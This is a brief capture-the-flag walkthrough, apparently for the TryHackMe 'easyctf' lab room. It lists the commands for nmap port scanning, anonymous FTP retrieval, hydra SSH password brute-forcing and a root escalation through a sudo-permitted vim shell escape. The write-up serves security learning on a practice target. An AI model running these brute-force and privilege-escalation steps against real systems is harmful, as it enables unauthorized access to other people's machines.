 THM-easyctf
https://tryhackme.com/room/easyctf

Use nmap to check for open ports: sudo nmap -Pn -p- -sS 10.10.38.83

PORT STATE SERVICE

21/tcp open ftp

80/tcp open http

2222/tcp open EtherNetIP-1

Log on to the ftp server as anonymous: ftp 10.10.38.83

cd pub directory and get ForMitch.txt

cat file:

 ℹ️ Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess! 
🔑 mitch could be a potential user name

Bruteforce the ssh server: hydra -l mitch -P /usr/share/dirb/wordlists/others/best110.txt ssh://10.10.38.83:2222

 *2222][ssh] host: 10.10.38.83   login: mitch   password: ******
Login to the ssh server: ssh mitch@10.10.38.83 -p 2222

🏴‍☠️ cat user.txt to get the first flag

sudo -l:

ℹ️ (root) NOPASSWD: /usr/bin/vim 
Head to https://gtfobins.github.io/gtfobins/vim/ to find shell access:

vim -c ':!/bin/sh'
sudo vim -c ':!/bin/sh'

root access is gained

cd to root directory

🏴‍☠️ cat root.txt for the final flag
